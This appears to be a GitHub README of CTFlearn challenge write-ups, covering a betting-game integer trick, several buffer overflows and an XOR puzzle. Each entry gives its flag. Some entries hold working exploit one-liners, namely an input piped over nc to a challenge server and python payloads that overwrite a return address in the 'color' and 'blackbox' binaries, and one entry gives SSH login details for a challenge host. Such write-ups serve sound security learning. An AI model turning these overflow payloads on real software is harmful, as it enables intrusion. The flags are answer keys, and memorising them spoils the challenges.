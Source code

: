 # Lazy Game Challenge

Trie negative number for the bet like -100000$. And finally it gave me flag.

Or if not, execute this command, it does everything automatically

```sh
printf "Y\n-1000000\n11\n11\n11\n11\n11\n11\n11\n11\n11\n11\n" | nc thekidofarcrania.com 10001
```

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{d9029a08c55b936cbc9a30_i_wish_real_betting_games_were_like_this!}
``
</details>

# Simple bof

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/simplebof.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{buffer_0verflows_4re_c00l!}
``
</details>

# Favorite Color

Connect to the server `ssh color@104.131.79.111 -p 1001`
Entry the password `guest`

Now you are connect, if you entry `ls -la`, you see a file color.c

So fire the command to buffer overflow on the binary to gain acces to the flag file 

```sh
(python2 -c 'print "a"*52+"W\x86\x04\x08"';cat) | ./color
```

And if you have buffer overflow, you have just a `cat flag.txt` to get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{c0lor_0f_0verf1ow}
``
</details>

# RIP my bof

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/ripbof.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
``
</details>

# Blackbox

Fire the command to string overflow on the binary to get the flag

```sh
python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox
```

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{0n3_4lus_1_1s_Tw0_dumm13!!}
``
</details>

# Cryptoversing

Xor `h_bO}EcDOR` with `0x10`  and `+G)uh(jl,vL` with `0x18` on [Cryptii](https://cryptii.com/) from Bitwise operation 

<details>
<summary markdown="span">Full explanation</summary>

[here](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/explanation_cryptoversing.md)
</details>

<details>
<summary markdown="span">Answer</summary>

flag :``
xOr_mUsT_B3_1mp0rt4nT
``
</details>